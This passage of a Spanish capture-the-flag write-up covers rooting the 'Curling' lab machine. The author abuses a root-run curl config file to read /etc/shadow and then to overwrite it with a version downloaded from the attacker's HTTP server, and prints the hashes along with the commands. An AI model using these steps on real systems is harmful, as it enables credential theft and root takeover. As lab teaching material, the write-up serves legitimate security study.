/bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
```

El parámetro `-K` toma un archivo de configuración, en su contenido van instrucciones que `cURL` interpretara, por ejemplo podemos pasarle `user-agent`, `url`, `output`, `-L` (para ver redirecciones), [etc](https://everything.curl.dev/cmdline/configfile). Todos los argumentos con los que ejecutamos `cURL` desde la terminal los podemos agregar en un archivo y pasárselo con el parámetro `-K`:

⚙️ `-K, --config <file>`

* Specify a text file **to read curl arguments from**. ***The command line arguments found in the text file will be used as if they were provided on the command line***.

Como el único argumento actual en `input` es:

```bash
url = "http://127.0.0.1"
```

Esta haciendo una petición hacia esa **URL** (:

Y simplemente el resultado de la consulta la guarda en `report` (con `-o`). Sencillito de entender. Ahora veamos como romper esoooooooooooooooooooowoweoriwqeru...

...

## Jugando con el archivo que toma <u>cURL</u> como configuración [📌](#breaking-curlfig) {#breaking-curlfig}

Intentando cositas como pasarle nuestra **URL** de algún servidor `Python`, recibimos la petición, pero claro, no tenemos posibilidad de indicarle que **interprete** lo que sea que tengamos sirviendo 😞

Buscando y buscando llegamos a este recurso del siempre fiel `GTFOBins` (échenle un ojo, tiene muuuuuuuchas maneras de explotar muuuuuuuuuuchos binarios):

* [https://gtfobins.github.io/gtfobins/curl/](https://gtfobins.github.io/gtfobins/curl/).

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160google_gtfobins_curl_READfile.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Nos indica que si queremos leer archivos podemos usar `file://` seguido del archivo en cuestión... OPA, interesante, puees si la instrucción `cURL` la esta ejecutando `root` podemos ver archivos privilegiados, ¿no? Puuuuuues intentemos ver el archivo que contiene tooodas las contraseñas de los usuarios del sistema, el objeto [/etc/shadow](https://searchsecurity.techtarget.com/definition/shadow-password-file):

Debemos modificar el archivo `input` con esto:

```bash
floris@curling:/tmp/miacosa$ echo 'url = "file:///etc/shadow"'
url = "file:///etc/shadow"
```

Pues hagámoslo:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160bash_florisSH_fileINPUT_originalETCshadow.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Y si revisamos el archivo `report`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160bash_florisSH_fileREPORT_originalETCshadow.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

¡Qué maravillaaaaaaaaaaaaaaaaaaaaaaaaaaa!!

Con esto ya podríamos obtener la `flag` de **root**...

---

## Cambiamos la contraseña de <u>root</u> para obtener una Shell en el sistema [📌](#shadow-root) {#shadow-root}

Probando maneras de obtener una **Shell** con simplemente una subida y modificación de archivos recorde una manera que interactuaba directamente con el archivo `/etc/shadow`, en internet encontramos este post con una explicación brutal:

* [Privilege Escalation: Exploiting write access to /etc/shadow](https://blog.geoda-security.com/2019/02/privilege-escalation-exploiting-write.html).

**Visiten el post, esta muy bueno y explica muuuchas cosas que no tocaré acá.**

(En pocas palabras)...

Una credencial del archivo `/etc/shadow` normalmente tiene este formato:

```bash
test:x:1002:1002:test,,,:/test:/bin/bash
```

Donde de todos los campos (separados por `:`) el que contiene la contraseña en este ejemplo es `x`. Pero **OJOOOOOOOOO**, la contraseña no es `x` (por si no me hice entender) 🤪, donde esta la `x` va el hash de la contraseña...

Entonces, la explotación se basa en **remplazar** el `hash` (la contraseña) de algún usuario con uno nuevo queeeeee haga referencia a una contraseña que conozcamos (obvio :P).

Esto para iniciar sesión con esa nueva contraseña contra el usuario al que le cambiamos su `hash` (contraseña).

Veámoslo en la práctica.

Tomamos el contenido original del archivo `/etc/shadow`. Aprovechemos el archivo de configuración para indicarle que nos guarde el resultado de la petición en otro archivo:

```bash
floris@curling:/tmp/miacosa$ echo -e 'url = "file:///etc/shadow"\n-o /tmp/miacosa/shasha'
url = "file:///etc/shadow"
-o /tmp/miacosa/shasha
```

```bash
floris@curling:/tmp/miacosa$ echo -e 'url = "file:///etc/shadow"\n-o /tmp/miacosa/shasha' > /home/floris/admin-area/input
```

Esperamos un momento y ya tendríamos el archivo `shasha` en nuestra carpeta de trabajo, (de todas las formas en que podemos pasarnos el archivo) tomamos su contenido, nos lo llevamos a nuestra máquina y generamos un nuevo archivo con él:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160bash_transport_ORIGINALshadowFILE.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Y ahora nos queda identificar que tipo de hash tiene el usuario `root` para así mismo generar el nuestro con el formato correcto:

```bash
root:$6$RIgrVboA$HDaB29xvtkw6U/Mzq4qOHH2KHB1kIR0ezFyjL75DszasVFwznrsWcc1Tu5E2K4FA7/Nv8oje0c.bljjnn6FMF1:17673:0:99999:7:::
...
```

En el mismo post nos indica:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160google_shadow_typeHASH.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Así que el algoritmo usado es `SHA-512`, encontramos estas maneras de generarlos desde consola:

* [How to create SHA512/SHA256/MD5 password hashes on command line](https://rakeshjain-devops.medium.com/how-to-create-sha512-sha256-md5-password-hashes-on-command-line-2223db20c08c).
* [How to create SHA512 password hashes on command line](https://unix.stackexchange.com/questions/52108/how-to-create-sha512-password-hashes-on-command-line#answer-76337).

Nos quedaremos con esta manera:

```bash
❱ python3 -c 'import crypt; print(crypt.crypt("hola", crypt.mksalt(crypt.METHOD_SHA512)))'
```

Donde `hola` es la "contraseña" que queremos encriptar, pues generemos el hash para `ajatepille`:

```bash
❱ python3 -c 'import crypt; print(crypt.crypt("ajatepille", crypt.mksalt(crypt.METHOD_SHA512)))'
$6$4iWM54cNAlfhQmjI$ZXyO9QTKqY0iXUwcliHzZ.o8LjNyj.l9ZS6iw0gv7hj1vuUp2LwBykBkE2GFjsvggl2CA4HQInUCVYap6WznA0
```

Perfectísimo, lo siguiente será remplazar la contraseña de `root` por la nueva:

```bash
root:$6$4iWM54cNAlfhQmjI$ZXyO9QTKqY0iXUwcliHzZ.o8LjNyj.l9ZS6iw0gv7hj1vuUp2LwBykBkE2GFjsvggl2CA4HQInUCVYap6WznA0:17673:0:99999:7:::
...
```

Y como paso final debemos indicarle a la instrucción `cURL` que tome ese contenido y lo remplacé por el actual:

(**Levantamos un servidor web en la ruta donde esté el archivo `shadow`**)

```bash
❱ python3 -m http.server
```

Y en el objeto `input` indicamos:

```bash
floris@curling:/tmp/miacosa$ echo -e 'url = "http://10.10.14.5:8000/shadow"\n-o /etc/shadow'
url = "http://10.10.14.5:8000/shadow"
-o /etc/shadow
```

```bash
floris@curling:/tmp/miacosa$ echo -e 'url = "http://10.10.14.5:8000/shadow"\n-o /etc/shadow' > /home/floris/admin-area/input 
```

Nos llegara la petición, leerá el contenido del archivo hosteado (`shadow`) y lo guardara en la ruta `/etc/shadow`, o sea, el nuevo archivo será el que contiene nuestra contraseña (:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160bash_transport_FAKEshadowFILE.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

YyyyyyyyyyyyYYYyyyYyyy si ahora intentamos conectarnos como `root` con la contraseña `ajatepille`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160bash_rootSH_su.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

VAMOOOOOOOOOOOOOOONOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOS!! Conseguimos una **Shell** como el usuario `root` cambiándole su contraseña, que belleza!!

Veamos las flags:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160flags.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Y eso es todo por esta máquina :(:(:(:(:

...

Bonito camino, lo de encontrar `secret.txt` así como así en un comentario fue muy KLK, pero de resto fue de mucho aprendizaje.

Y weno, nos reencontraremos en otra ocasión, a darle duro a todo yyyyyyyyyyyyyyyyyyy a seguir rompiendoOOO0oOOOOOOoooooTODOOOOOOOOooooOO!!